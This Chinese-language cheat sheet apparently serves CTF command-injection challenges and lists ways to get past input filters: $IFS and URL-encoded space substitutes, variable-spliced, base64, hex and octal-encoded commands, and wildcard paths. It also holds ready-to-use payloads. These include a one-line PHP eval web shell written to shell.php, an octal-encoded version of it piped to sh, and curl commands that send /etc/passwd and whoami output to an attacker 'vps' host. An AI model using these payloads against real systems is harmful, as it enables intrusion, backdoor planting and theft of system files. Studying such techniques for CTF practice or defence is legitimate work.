 
**空格代替：
<>符号
< 符号
$IFS
${IFS}
$IFS$9
%09，%0b，%0c，%20用于url传递**

whidows下，可以用`%ProgramFiles:~10,1%`，%ProgramFiles%一般为 C:\Program Files

`a=l;b=s;$a$b等于ls`
base64编码：   `echo d2hvYW1p|base64 -d`   d2hvYW1p的base64编码为whoami
![](https://img-blog.csdnimg.cn/20200829152321418.png#pic_center)

16进制： `echo "0x636174202e2f666c6167" |xxd -r -p`
![](https://img-blog.csdnimg.cn/20200829152023261.png#pic_center)
`$(printf "\x77\x68\x6f\x61\x6d\x69")`
![](https://img-blog.csdnimg.cn/20200829152241308.png#pic_center)
8进制：`$(printf "\167\150\157\141\155\151")`
![](https://img-blog.csdnimg.cn/20200829152434478.png#pic_center)

**下列例子是输出反斜杠 / :**
>echo \${PATH:0:1}
echo \`expr$IFS\substr\\$IFS\\$(pwd)\\$IFS\1\\$IFS\1\`
echo \$(expr\${IFS}substr\${IFS}\$PWD\${IFS}1${IFS}1)\
expr\${IFS}substr\${IFS}\$SESSION_MANAGER\${IFS}6${IFS}1
echo $(cd ..&&cd ..&&cd ..&&cd ..&&pwd)

无回显技巧(exec):
```bash
ping;cp 12345.php 2.txt  再访问2.txt
ls /|tee 1.txt
tar cvf index .
tar -cvf index . 打包目录下的所有文件为index，下载即可
echo "<?php @eval(\$_POST[cmd]);?>" >shell.php
printf "\145\143\150\157\40\42\74\77\160\150\160\40\100\145\166\141\154\50\134\44\137\120\117\123\124\133\143\155\144\135\51\73\77\76\42\40\76\163\150\145\154\154\56\160\150\160"|sh
curl vps -d "@/etc/passwd"
curl vps -d `whoami`
curl vps -T "/etc/passwd"
```

一些小技巧
```bash
$a=ag.php;$b=fl;cat$IFS$9$b$a
cat$IFS$9`ls`
echo$IFS$9Y2F0IGZsYWcucGhw=$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|sh
/bin/base64 flag.php：/???/????64 ????.???
/bin/x11/base32 flag.php：/???/?11/????32 ????.???
/usr/bin/bzip2 flag.php：/???/???/????2 ????.???


列目录命令: du -a .
cat可用 more${IFS}`ls`代替，还可以用ca\t fl\ag,ca""t flag,ca''t flag,sort flag,od -c flag,sed -n '1p' flag
使用通配符：/???/??t fl??
查看文件头几行： head 文件名
查看文件后几行： tail 文件名
反向查看： tac 文件名
base64 文件名
`cat、tac、more、less、head、tail、nl、sort、uniq、rev`
```
php小技巧
```php
$_=`/???/??? /????`;?><?=$_?>
```